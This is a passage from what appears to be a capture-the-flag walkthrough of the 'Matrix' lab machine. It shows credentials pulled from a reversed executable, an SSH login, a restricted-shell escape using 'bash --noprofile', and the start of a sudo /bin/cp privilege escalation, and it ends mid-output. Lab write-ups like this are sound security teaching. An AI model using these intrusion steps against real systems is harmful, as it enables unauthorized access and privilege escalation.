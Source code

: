 I found a directory called `data` , visit and download this file

![](https://raw.githubusercontent.com/0xsheinn/0xsheinn.github.io/master/_posts/images/matrix/6.png)

![](https://raw.githubusercontent.com/0xsheinn/0xsheinn.github.io/master/_posts/images/matrix/7.png)

File type is DOS/Window Executable ,so we can reverse engineering this file with [Ghidra](https://ghidra-sre.org/)

Add this file to [Ghidra](https://ghidra-sre.org/) and after some time

I found a username and password `guest:7R1n17yN30`

![](https://raw.githubusercontent.com/0xsheinn/0xsheinn.github.io/master/_posts/images/matrix/4.png)

We already knew ssh is opening on port 6464. Let's login 

```
┌─[root@cyb3rhoL1c]─[~/Desktop/vulhub/matrix_machine]
└──╼ #ssh guest@192.168.43.104 -p6464
guest@192.168.43.104's password: 
Last login: Thu Jul 30 13:26:55 2020 from 192.168.43.126
guest@matrix:~$ id
-rbash: id: command not found
guest@matrix:~$ ^C
guest@matrix:~$ exit
logout
Connection to 192.168.43.104 closed.
```
Logined Successfully but it's rbash ,we can't run normal command

So use this command to login with bash `ssh guest@192.168.43.104 -p6464 -t "bash --noprofile"`

```
┌─[root@cyb3rhoL1c]─[~/Desktop/vulhub/matrix_machine]
└──╼ #ssh guest@192.168.43.104 -p6464 -t "bash --noprofile"
guest@192.168.43.104's password: 
guest@matrix:~$ sudo -l
User guest may run the following commands on matrix:
    (root) NOPASSWD: /usr/lib64/xfce4/session/xfsm-shutdown-helper
    (trinity) NOPASSWD: /bin/cp
guest@matrix:~$ 
```

# [](#header-3)Privilege Escalaption

`trinity` user can run `/bin/cp` so let generate ssh key

```
guest@matrix:~$ ssh-keygen 
Generating public/private rsa key pair.
Enter file in which to save the key (/home/guest/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/guest/.ssh/id_rsa.
Your public key has been saved in /home/guest/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:lhle/Tkb5WlXikvNAwu6naeWHoRs+zuva4pOyi/fwI8 guest@matrix
The key's randomart image is:
+---[RSA 2048]----+
|                 |
|           .     |
|        . o o   o|
|       o B . B =o|
|        S . + Xoo|
|     . o = o ..=.|
|      + o +.o .  |
```